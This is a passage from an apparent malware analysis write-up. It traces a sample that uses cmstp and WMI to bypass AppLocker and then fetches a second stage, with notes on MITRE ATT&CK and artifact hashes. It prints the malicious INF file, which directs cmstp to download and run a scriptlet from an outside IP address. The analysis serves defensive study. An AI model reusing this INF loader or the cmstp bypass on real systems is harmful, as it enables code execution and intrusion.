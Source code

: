 ![Process Tree of running cmd](/img/malware-applocker-bypass/2.jpg "Process Tree of running cmd")

very interesting stuff already. We can see that the `cmd` contains two distinct sections. The first part creates a "RANDOM.inf" file (RANDOM is a random number generated via %random% command) and the second part starts it using WMI and `cmstp`. Let's dig deeper in the first part and see how Microsoft.inf gets generated.

![running cmstp](/img/malware-applocker-bypass/3.jpg "running cmstp")

![cmstp help](/img/malware-applocker-bypass/4.jpg "cmstp help")

Sidenote: `cmstp` is often used to bypass Applocker, [Reference](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/). MITRE ATT&CK (#T1218.003) links this technique to Cobalt Group and MuddyWater. 

![applocker bypass blog](/img/malware-applocker-bypass/5.jpg "applocker bypass blog")

Beautified version of the created `.ini` file:

```ini

[version]scrObj
2D0D=01
[defaultinstall_singleuser]
UnRegisterOCXs=F251A5
delfiles=2D0D
[F251A5]
%11%\scrObj,NI,http://209.141.61.11/update.txt
[2D0D]
RANDOM.inf
[strings]
UoglocMF5568=t
UoglocMF2085=h
UoglocMF54670=:
UoglocMF7741=s
UoglocMF92584=/
UoglocMF37180=b
UoglocMF0342=
servicename=' '
shortsvcname=' '"
```


## Stage 2, update.txt

Update.txt (Artifact #6 TXT, `c7da11e38583d4d8fa0597cc3ac17b24d210b2b59f9c22b1f6f7224a16ea9328`, VT 3/59) is only downloadable via the user-agent string that `cmstp` uses by default, making the analyst's job a bit difficult.

![Empty update.txt when browsing via Firefox](/img/malware-applocker-bypass/6.jpg "Empty update.txt when browsing via Firefox")

Fortunately, update.txt is downloaded via HTTP so the PCAP file containing `update.txt` (Artifact #7 PCAP, `6b2da53f8bcae0cd99bdae18993bf8d485ac56be33d01af8f18022b9888eebd3`, VT N/A) has a lot of information about the request and response:
